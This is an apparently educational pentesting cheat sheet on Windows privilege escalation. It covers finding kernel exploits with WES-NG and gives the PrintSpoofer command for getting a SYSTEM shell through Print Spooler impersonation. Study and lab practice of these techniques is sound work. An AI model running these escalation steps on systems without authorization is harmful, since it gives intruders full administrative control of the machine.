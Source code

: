 # 🧬 Kernel Exploitation

### What is the Kernel?

The **kernel** is the **core part of Windows** that controls how software talks to the hardware (CPU, RAM, etc.).If you find a **bug (exploit)** in the kernel, you might get **admin (SYSTEM)** level access.

- ⚠️ **Warning:** Kernel exploits are risky and may crash the system. Only test them in a **safe lab environment**, not on real machines.

### Tooling

- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [WES-NG](https://github.com/bitsadmin/wesng)
- [Kernel Exploits List](https://github.com/SecWiki/windows-kernel-exploits)

### Steps

1. Run: `systeminfo > sysinfo.txt`
2. Update: `./wes.py --update`
3. Suggest: `./wes.py sysinfo.txt`
4. Match CVEs and search for exploits manually or in Metasploit

___

# 🧨 PrintSpoofer - Privilege Escalation via Print Spooler Impersonation


### ✅ Requirements

- Local user with:
  - `SeImpersonatePrivilege`
  - Access to a system with the **Print Spooler service running**
- Windows 10 or Server 2016/2019 (unpatched)

### 🚀 Exploitation Steps

1. **Download PrintSpoofer**
   - [Download from GitHub Releases](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
   - Choose the correct binary: `PrintSpoofer.exe` (x64 or x86)

2. **Execute with SYSTEM impersonation**
   ```bash
   ./PrintSpoofer.exe -i -c cmd
   ```

___
